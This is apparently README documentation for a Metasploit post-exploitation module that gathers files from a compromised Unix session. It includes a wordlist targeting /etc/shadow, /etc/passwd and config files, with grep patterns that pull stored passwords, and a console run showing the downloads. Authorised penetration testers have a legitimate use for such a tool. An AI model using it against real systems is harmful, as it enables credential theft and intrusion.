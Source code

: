 Downloading files

## Module Options

**DOWNLOAD**

Download a special file or directory

**FILES**

Download files defined in this wordlist

**SESSION**

Which session to use, which can be viewed with `sessions -l`

**TIMEOUT**

Default timeout is set to 5 minutes. You can change it (large files usually
nee a while to be downloaded)

**USE_UPDATEDB**

Use UpdateDB for searching for files. Creating this DB needs some time
(running find over /). Searching many files (also for other Staekka modules)it can speed up things.

## Wordlist
### supported entries
Format:
path||description text|type


### Example of wordlist
```
/etc/passwd||default unix passwd|:text
/etc/shadow||password hashes|:text
/etc/nofile||no_file|:text
/etc/issue||test file|:data
# home directory
#~/.bashrc||shell config|:text
etc/fstab||unix config|:text  # etc/fstab
/etc/pam.d/||pam config|:text
/home/user/.config/Last.fm/Last.fm.conf||GREP(/\\Password\s*=(.*)/)|:text
/home/user/.cvechecker.rc||CONFGREP(/dbpass\s*=\s*"(.*)"/)|:text
```

## Scenario
```
msf post(download_interessting) > options

Module options (post/unix/gather/download_interessting):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   DOWNLOAD                       no        Files and/or directories to download
   FILES                          no        Wordist of files to download /home/user/staekka/data/wordlists/interessting_files.txt
   SESSION       1                yes       The session to run this module on.
   TIMEOUT       300              no        Timeout should be higher on large directories
   USE_UPDATEDB  true             no        Use an updatedb database and search for filenames instead of full path

msf post(download_interessting) > set FILES /home/jot/Code/metasploit/staekka/data/wordlists/interessting_files.txt
FILES => /home/user/staekka-test/data/wordlists/interessting_files.txt
msf post(download_interessting) > run

[*] downloaded /etc/passwd : default unix passwd
[*] downloaded /etc/issue : test file
[*] downloaded /etc/fstab : unix config
[*] downloaded /chroot/debian/etc/fstab : unix config
[*] downloaded /etc/pam.d/ : pam config
[*] Post module execution completed
```


